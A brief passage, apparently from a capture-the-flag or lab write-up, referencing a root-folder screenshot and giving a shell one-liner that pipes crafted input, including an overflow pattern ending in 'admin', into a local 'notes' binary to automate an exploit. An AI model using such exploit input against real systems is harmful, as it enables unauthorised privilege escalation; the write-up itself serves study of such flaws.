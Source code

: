 ![](screenshots/23-root-folder.png)

To automate the exploit, it was possible to send the following command:

```sh
echo -e '1test\n3\n4\nAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin\n8\n9' | /usr/local/bin/notes
```